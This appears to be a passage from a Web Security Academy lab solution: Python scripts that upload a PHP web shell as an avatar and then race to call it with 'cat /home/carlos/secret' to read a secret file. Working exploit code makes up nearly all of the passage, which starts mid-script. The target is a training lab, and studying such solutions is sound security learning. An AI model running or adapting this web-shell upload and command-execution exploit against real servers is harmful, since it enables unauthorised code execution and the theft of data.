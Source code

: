 ```python

	r = s.post(url + '/my-account/avatar', files=file, data=form_data)


### FILE 2
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a5500ad03051e6f825cf21700d100c3'
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()
filename = 'cmd.php'
while True:
	params = {
		'cmd':'cat /home/carlos/secret'
	}
	r = s.get(url + f'/files/avatars/{filename}', params=params)
	print(r.text)
```

Running these two in separate terminals will eventually print out the secret. 